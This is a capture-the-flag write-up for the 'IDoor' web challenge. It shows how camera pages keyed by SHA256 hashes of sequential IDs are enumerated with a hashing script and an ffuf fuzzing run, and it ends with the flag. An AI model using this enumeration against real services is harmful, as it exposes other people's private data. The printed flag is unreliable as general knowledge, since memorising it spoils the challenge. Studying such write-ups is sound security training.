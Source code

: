 
# Challenge Name: IDoor


![date](https://img.shields.io/badge/date-23.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-50-blue.svg)  

## Description

Author: @JohnHammond#6971  
  
It's Apple's latest innovation, the "iDoor!" ... well, it is basically the Ring Doorbell camera, but the iDoor offers a web-based browser to monitor your camera, and super secure using ultimate cryptography with even SHA256 hashing algorithms to protect customers! Don't even _think_ about snooping on other people's cameras!!  
  
**Press the `Start` button on the top-right to begin this challenge.**

## Detailed solution

Start by checking the challenge URL, we got a redirection to `/4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8`
http://challenge.nahamcon.com:31646/4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8

![Pasted image 20240525182729](https://github.com/BaadMaro/CTF/assets/72421091/3e7c4708-bbb2-4e08-97cd-f0712f2e4bb4)

As we can see we have the ID 11 and the URL identifier `4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8` which is the SHA256 value of 11

We can generate sha256 hashes with numbers to find different camera

```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo "Usage: $0 <input_string>"
  exit 1
fi

python3 -c "
import hashlib
input_string = \"$1\"
sha256_hash = hashlib.sha256(input_string.encode()).hexdigest()
print(sha256_hash)
"
```

```shell
for i in in {0..20}; do bash sha256_bash_python.sh $i; done | ffuf -c -w - -u http://challenge.nahamcon.com:31646/FUZZ          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0
________________________________________________

 :: Method           : GET
 :: URL              : http://challenge.nahamcon.com:31646/FUZZ
 :: Wordlist         : FUZZ: -
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9 [Status: 200, Size: 1797, Words: 634, Lines: 54, Duration: 160ms]
19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7 [Status: 200, Size: 1745, Words: 584, Lines: 52, Duration: 164ms]
6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b [Status: 200, Size: 1766, Words: 584, Lines: 52, Duration: 172ms]
4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 171ms]
7902699be42c8a8e46fbbb4501726517e86b22c56a189f7625a6da49081b2451 [Status: 200, Size: 1795, Words: 584, Lines: 52, Duration: 167ms]
4a44dc15364204a80fe80e9039455cc1608281820fe2b24f1e5233ade6af1dd5 [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 183ms]
ef2d127de37b942baad06145e54b0c619a1f22327b2ebbcfbec78f5564afe39d [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 184ms]
2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3 [Status: 200, Size: 1766, Words: 584, Lines: 52, Duration: 194ms]
4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8 [Status: 200, Size: 3286, Words: 1040, Lines: 73, Duration: 185ms]
4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce [Status: 200, Size: 1780, Words: 584, Lines: 52, Duration: 769ms]
e7f6c011776e8db7cd330b54174fd76f7d0216b612387a5ffcfb81e6f0919683 [Status: 200, Size: 1798, Words: 584, Lines: 52, Duration: 756ms]
d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35 [Status: 200, Size: 1745, Words: 584, Lines: 52, Duration: 848ms]
:: Progress: [22/22] :: Job [1/1] :: 62 req/sec :: Duration: [0:00:01] :: Errors: 0 ::

```

We got a hit with the value `5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9` which is 0

Now let's visit http://challenge.nahamcon.com:31646/5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9

![Pasted image 20240525183537](https://github.com/BaadMaro/CTF/assets/72421091/0a2021eb-6a02-4dce-8820-6ee0b7014b21)

We got our flag

## Flag

```
flag{770a058a80a9bca0a87c3e2ebe1ee9b2}
```
